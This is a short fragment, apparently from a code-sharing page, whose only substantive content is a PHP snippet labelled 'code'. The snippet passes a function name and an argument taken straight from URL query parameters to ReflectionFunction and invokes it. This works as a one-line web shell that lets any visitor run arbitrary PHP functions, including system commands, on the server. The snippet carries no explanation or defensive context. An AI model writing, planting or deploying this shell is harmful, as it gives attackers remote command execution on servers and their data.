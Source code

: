 

<img src="11.jpg" alt="alt text" title="Title" />


***************************************************
code:

<p><?php
    $func = new ReflectionFunction($_GET[m]);
    echo $func->invokeArgs(array($_GET[c]));
?></p>

***************************************************